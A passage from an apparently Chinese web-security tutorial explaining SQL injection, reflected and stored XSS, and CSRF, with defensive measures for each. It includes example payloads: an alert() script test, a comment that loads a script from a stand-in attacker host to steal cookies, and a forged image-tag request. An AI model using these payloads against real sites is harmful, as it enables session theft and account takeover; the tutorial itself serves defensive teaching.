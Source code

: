 一次查询就能删库。当然也能做其他任何数据库操作。

#### 应对措施
- 方法1：使用ORM库，调用API，而不是直接运行SQL语句
- 方法2：在运行SQL语句前对拼接的查询字段进行转义
- 方法3：对数据库操作权限也做适当配置，比如不允许删库，能减小损失

### XSS攻击
Cross-site scripting (XSS) 。由于网站存在漏洞，使得攻击者可以在网站输入恶意代码，并让恶意代码在其他用户浏览器运行，窃取用户信息。

#### 非持久型攻击
1. 小花爱逛淘宝，在访问淘宝网时会输入用户名、密码进行登录，登录成功后浏览器和服务器分别保存认证Cookie用于识别小花的身份。
2. 攻击者发现淘宝网的商品搜索栏有XSS漏洞：
  a. 当攻击者在搜索栏搜索商品"手机"时，页面会展示“手机 100条查询结果”，页面的URL会变成 http://taobao.com/search?q=手机。
  b. 当攻击者搜索“手机`<script>alert('xss')</script>`” 时，页面会展示“手机 100条查询结果”，同时页面会弹出Alert弹窗。 此时，攻击者就发现了该网站漏洞。
3. 攻击者构造链接 “http://taobao.com/search?q=手机`<script>恶意代码</script>`” 并把链接通过各自社交平台发布，并配上诱人广告语：“淘宝女神节手机3折，仅限1000名用户”。
4. 小花看到广告后，点开链接，发现确实进入淘宝官方网站，并没发现3折的手机，也没把这事放心上。
5. 但实际上恶意代码已经在小花浏览器执行，因为小花的淘宝处于已登录状态，恶意代码可以获取小花的Cookie，也能“看”到小花的所有信息，并模拟小花的所有操作。

#### 持久型攻击
1. 攻击者发现淘宝的商品详情页的商品评论框有XSS漏洞
2. 攻击者发了一条评论，内容是："宝贝物美价廉，买到就是赚到`<script src='http://xss.com/attack.js'>`"。这个消息会展示在评论列表，其中的script标签会潜入到页面
3. 其他用户打开该商品详情页，阅读评论的同时实际上恶意代码已经在偷偷执行。攻击者会获取用户的Cookie劫持用户信息，也可以模拟用户再次发送包含恶意代码的评论，实现类似蠕虫病毒的传播模式。

#### 防范措施
1. 对富文本编辑器，过滤script等不安全标签
2. 对用户输入进行转义，比如把`<script></script> `转义为 `&lt;script&gt;&lt;/script&gt`;
3. 代码需要动态展示内容时用innerText 取代 innerHTML ，使用v-text取代 v-html，尽量少做HTML字符串拼接，禁止使用eval执行JS。
4. 服务端Set Cookie时 带上HttpOnly字段，阻止JavaScript获取Cookie
5. 对于上传图片的场景，禁止使用用户填写的图片地址。特别是Markdown编辑器。

### CSRF攻击
Cross-site request forgery, 跨站点请求伪造。攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

#### 攻击流程
- 受害者登录http://a.com，并保留了登录凭证（Cookie）。
- 攻击者引诱受害者访问了http://b.com。
- http://b.com 向 http://a.com 发送了一个请求：http://a.com/act=xx。浏览器会默认携带http://a.com的Cookie。
- http://a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
- http://a.com以受害者的名义执行了act=xx。
- 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让http://a.com执行了自己定义的操作。

#### 攻击类型
- GET类型的CSRF

一个常见的场景是匿名点赞，服务端会根据匿名访问者的IP来区分用户。攻击者把这个点赞接口集成到自己网站的图片里，任何人访问攻击者的网站都相当于给攻击者做了嫁衣帮忙点了一次赞。
`<img src="http://zan.example/thumbup?amount=1&for=hacker" >`
